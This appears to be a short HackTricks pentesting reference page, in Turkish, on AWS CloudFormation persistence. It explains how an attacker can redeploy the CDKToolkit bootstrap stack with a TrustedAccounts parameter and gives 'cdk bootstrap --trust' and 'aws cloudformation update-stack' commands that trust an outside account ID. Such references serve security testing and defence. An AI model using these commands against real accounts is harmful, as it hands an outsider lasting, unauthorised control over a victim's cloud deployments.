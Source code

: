 # AWS - Cloudformation Sürekliliği

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Daha fazla bilgi için erişin:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Yığını

AWS CDK, `CDKToolkit` adında bir CFN yığını dağıtır. Bu yığın, kurban hesabına CDK projeleri dağıtmak için dış hesapların kullanılmasına izin veren `TrustedAccounts` adlı bir parametreyi destekler. Bir saldırgan, bu durumu kullanarak kendisine kurban hesabına süresiz erişim sağlayabilir; ya AWS cli kullanarak yığını parametrelerle yeniden dağıtarak ya da AWS CDK cli kullanarak.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
